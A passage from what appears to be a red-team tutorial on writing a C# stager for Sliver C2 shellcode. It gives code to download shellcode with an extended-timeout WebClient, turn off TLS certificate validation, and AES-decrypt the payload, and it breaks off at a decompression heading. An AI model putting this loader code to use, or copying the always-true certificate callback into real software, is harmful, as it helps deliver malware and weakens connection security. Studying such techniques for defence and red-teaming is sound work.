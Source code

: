 ### Download the Shellcode

One of the main problems encountered early on was that the default .NET WebClient object times out the connection after 60 seconds, and this attribute cannot be easily changed. The solution is to implement a slightly modified version of the WebClient object, allowing the default timeout to be overridden with a custom value. The implementation of this in C# is as follows:

```csharp
 public class WebClientWithTimeout : WebClient
{
    protected override WebRequest GetWebRequest(Uri address)
    {
        WebRequest wr = base.GetWebRequest(address);
        wr.Timeout = 50000000; // timeout in milliseconds (ms)
        return wr;
    }
}
```

Since a custom SSL certificate is being used, it is necessary to instruct the WebClient to ignore SSL certificate validation. This can be achieved by using a certificate validation handler that always returns true, as shown below:

```csharp
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
```

### Shellcode decryption

On the Stagers wiki page, the Sliver C2 team provides a template for a C# shellcode runner that includes an implementation of AES decryption. The decryption method they provide can be used as follows:
```csharp
public static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
{
    byte[] key = Encoding.UTF8.GetBytes(AESKey);
    byte[] IV = Encoding.UTF8.GetBytes(AESIV);

    using (Aes aesAlg = Aes.Create())
    {
        aesAlg.Key = key;
        aesAlg.IV = IV;
        aesAlg.Padding = PaddingMode.None;

        ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

        using (MemoryStream memoryStream = new MemoryStream(ciphertext))
        {
            using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
            {
                cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                return memoryStream.ToArray();
            }
        }
    }
}
```
### Shellcode decompression
